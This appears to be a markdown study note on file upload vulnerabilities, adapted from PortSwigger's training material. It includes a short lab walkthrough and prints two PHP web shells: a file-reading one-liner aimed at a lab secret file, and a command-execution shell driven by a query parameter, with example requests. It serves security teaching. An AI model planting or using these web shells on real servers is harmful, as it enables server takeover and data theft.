 # File upload vulnerabilities
In this section, you'll learn how simple file upload functions can be used as a powerful vector for a number of high-severity attacks. We'll show you how to bypass common defense mechanisms in order to upload a web shell, enabling you to take full control of a vulnerable web server. Given how common file upload functions are, knowing how to test them properly is essential knowledge.
![image](https://github.com/offensivecyber03/PortSwigger/assets/71892943/8b7fe1cc-9e41-4cd7-ba60-beea6984ea36)

From a security perspective, the worst possible scenario is when a website allows you to upload server-side scripts, such as PHP, Java, or Python files, and is also configured to execute them as code. This makes it trivial to create your own web shell on the server.

`
Web shell
A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server
simply by sending HTTP requests to the right endpoint.
`

If you're able to successfully upload a web shell, you effectively have full control over the server. This means you can read and write arbitrary files, exfiltrate sensitive data, even use the server to pivot attacks against both internal infrastructure and other servers outside the network. For example, the following PHP one-liner could be used to read arbitrary files from the server's filesystem:

```bash
<?php echo file_get_contents('/path/to/target/file'); ?>
```
Once uploaded, sending a request for this malicious file will return the target file's contents in the response.


# Basic Lab

1) Shell php file `<?php echo file_get_contents('/home/carlos/secret'); ?>`
2) After uploading browse to that file according to name
3) Then content of secret file will be revealed.


A more versatile web shell may look something like this:
```bash
<?php echo system($_GET['command']); ?>
```
This script enables you to pass an arbitrary system command via a query parameter as follows:
`GET /example/exploit.php?command=id HTTP/1.1` or using curl: `curl https://example.com/shell.php?command=id`
